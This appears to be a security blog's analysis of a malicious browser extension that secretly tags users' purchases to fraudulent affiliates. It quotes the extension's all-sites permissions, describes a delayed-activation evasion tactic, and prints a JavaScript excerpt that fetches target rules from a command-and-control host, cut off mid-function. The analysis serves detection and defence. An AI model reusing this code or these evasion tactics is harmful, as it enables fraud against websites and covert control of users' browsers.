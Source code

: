 Note that the users are legitimate, and so are all of their actions (for instance, purchasing a specific item). The problem is that the site now falsely attributes this activity to an affiliate that, in fact, isn't contributing a thing. The outcome of such fraud could be:

- paying attribution fees of thousands of dollars to an affiliate that didn’t contribute a single user;
- ruining potential successful affiliate relations, as they will be underpaid (attributing their activities to the fraudulent one); or
- skewing the analytics of affiliate channels, crippling their ability to properly assess successful contributions and spending on affiliate channels and damaging the ability to invest in channels that lead to growth.

This is an extremely smart and flexible platform for the creator of the extension. It is able to monetize directly by collecting affiliate payouts or by selling the access to specific affiliates, thereby adding another layer to mask its true identity.

Remember, all of this activity is happening behind the scenes in hidden sessions that are completely in parallel to the user’s natural browser activity, in their shadow. As these extensions piggyback on legitimate users’ transactions, they benefit from the appearance and behavior of a real human. The extension creators know that the website will not want to block a user from performing a legitimate transaction.

The users’ transactions are real and valuable to the site, so one should NOT block the users infected with this affiliate fraud. The proper response is to detect the fraudulent affiliate tagging and to block payments for these affiliates as well as remove the contribution of these affiliates from the analytics to avoid the skew in data.

## The attack, in detail

Now we will dive into the technical details. It all starts with the extension being installed. A common thing for such an extension is to request excessive permissions that, in general, aren’t justified:

![extension_install](/assets/images/blog/extension_install.png)

While being installed, the extension requests access to read and change ALL of the data on ANY website the user visits.  What does that really mean? Allowing this level of access means the extension can intercept every web site the user browses and manipulate the requests in any way it wants. In other words, allowing access gives the extension full control over the user’s browsing experience. This is how the manifest.json  file of this extension looks like:

```json
"permissions":["*://*/*","webRequest","webRequestBlocking","tabs","storage"],
```

Once the extension is installed, it will do several things to help protect itself from being detected. The extension will first wait for a period of a week or two before doing any malicious activity, to hide its true nature from anyone monitoring its activity. Only after that waiting period, it will contact its command and control server (C&C) and download a large payload file that includes a list of target domains it wants to defraud. We’ve also noticed some less sophisticated extensions that go for the kill rather quickly, skipping this safety step.

```javascript
function updateRules() {
  var currentTimestamp = Math.floor(Date.now() / 1000);
  if (
    typeof localStorage["rules"] === "undefined" ||
    typeof localStorage["rules_timestamp"] === "undefined" ||
    currentTimestamp - localStorage["rules_timestamp"] > 60 * 60 * 24
  ) {
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://example.ru/get_rules.php", true);
    xhr.onreadystatechange = function() {
      if (xhr.readyState == 4) {
        localStorage["rules"] = xhr.responseText;
        localStorage["rules_timestamp"] = currentTimestamp;
      }
```